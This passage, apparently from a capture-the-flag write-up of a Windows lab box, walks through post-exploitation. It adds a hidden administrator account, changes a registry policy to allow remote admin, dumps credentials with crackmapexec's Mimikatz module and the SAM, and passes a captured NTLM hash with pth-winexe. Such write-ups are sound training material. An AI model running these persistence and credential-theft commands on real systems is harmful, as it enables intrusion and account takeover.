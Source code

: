 > **Victime Machine**:

```cmd
# 1st Persistence Method
net user oldb0y oldb0y123!$ /add
net localgroup Administrators oldb0y /add
```

> **Attacker Machine**:

```bash
crackmapexec smb 10.129.97.111 -u 'oldb0y' -p 'oldb0y123!$'
# Validated but not pwn3d!
```

> **Victime Machine**:

```cmd
cmd /c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

> **Attacker Machine**:

```bash
crackmapexec smb 10.129.97.111 -u 'oldb0y' -p 'oldb0y123!$'
# [+] haris-PC\oldb0y:oldb0y123!$ (Pwn3d!)

crackmapexec smb 10.129.97.111 -u 'oldb0y' -p 'oldb0y123!$' -x 'whoami'
crackmapexec smb 10.129.97.111 -u 'oldb0y' -p 'oldb0y123!$' --module Mimikatz -o COMMAND='sekurlsa::logonPassword'
crackmapexec smb 10.129.97.111 -u 'oldb0y' -p 'oldb0y123!$' -M mimikatz -o COMMAND='sekurlsa::logonPassword'
crackmapexec smb 10.129.97.111 -u 'oldb0y' -p 'oldb0y123!$' --sam
crackmapexec smb 10.129.97.111 -u 'Administrator' -H 'cdf51b162460b7d5bc898f493751a0cc'

pth-winexe --help
# pth-winexe. The pth suite uses the format DOMAIN/user%hash

pth-winexe -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:cdf51b162460b7d5bc898f493751a0cc //10.129.97.111 cmd.exe
rlwrap -cAr pth-winexe -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:cdf51b162460b7d5bc898f493751a0cc //10.129.97.111 cmd.exe
```

<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
